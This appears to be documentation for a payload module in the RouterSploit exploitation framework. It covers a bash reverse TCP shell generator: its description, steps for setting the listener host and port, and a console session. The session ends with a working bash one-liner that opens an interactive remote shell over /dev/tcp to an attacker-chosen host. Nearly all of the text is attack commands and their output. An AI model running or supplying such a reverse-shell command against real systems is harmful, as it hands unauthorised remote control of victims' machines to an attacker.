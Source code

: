 ## Description

Module generates payload that creates interactive tcp reverse shell by using bash one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/bash_reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates bash tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/bash_reverse_tcp
rsf (Bash Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Bash Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Bash Reverse TCP) > run
[*] Running module...
[*] Generating payload
bash -i >& /dev/tcp/192.168.1.4/4321 0>&1
```
